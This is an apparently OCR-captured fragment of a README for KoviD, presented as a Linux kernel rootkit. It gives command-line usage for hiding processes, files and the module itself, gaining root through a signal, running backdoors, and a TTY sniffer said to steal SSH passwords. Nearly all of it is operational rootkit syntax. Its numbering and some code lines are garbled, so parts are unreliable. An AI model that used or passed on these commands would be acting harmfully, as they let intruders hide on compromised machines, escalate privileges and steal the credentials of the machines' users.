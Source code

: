```bash
echo '-d name' >/proc/867530 
``` 
You can list hidden files and directory names with:

```bash
echo listname >/proc/867530
```

### SSH/FTP TTY sniffer
KoviD can snoop SSH sessions via tty keystrokes and steal passwords and commands effectively.

### Backdoors
For instructions, run 
```bash
scripts/bdclient.sh
``` 

#1 /proc interface turn on
kill -SIGCONT 31337
#2 /proc interface turn off
kill -SIGCONT 31337
#3 Get ROOT
kill -SIGCONT 666
su
#4 Hide a PID
echo <pid> >/proc/867530
#5 Unhide a PID
echo <pid> >/proc/867530
#6 Hide a PID in backdoor-style, hide children
echo "-bd <pid> >/proc/867530
#7 Undo #6
echo <pid> >/proc/867530
#8 Hide KoviD module from lsmod/sysfs  if not built with DEPLOY=1
echo "-h" >/proc/867530
#9 Undo #8 - can rmmod after
cat ```/proc/867530``` >/proc/867530
#10 List hidden taks - debug mode only
echo "-s" >/proc/867530
dmesg
#11 Hide README.txt
# At current directory only
echo "-a README.txt" >/proc/867530
# At full-path
echo "-a /home/files/README.txt" >/proc/867530

#11 Hide README.txt globally - hide all instances of README.txt
# bypass #10 and #11
echo "-g README.txt" >/proc/867530
#13 Hide ALL files named README.txt - this bypass #11
echo "-a README.txt" >/proc/867530
#14 Undo #12 - this bypass #11
echo "-d README.txt" >/proc/867530
#15 List hidden tasks - debug mode only
echo "-s" >/proc/867530
dmesg
#16 List hidden files and directories - debug mode only
echo "-l" >/proc/867530
dmesg
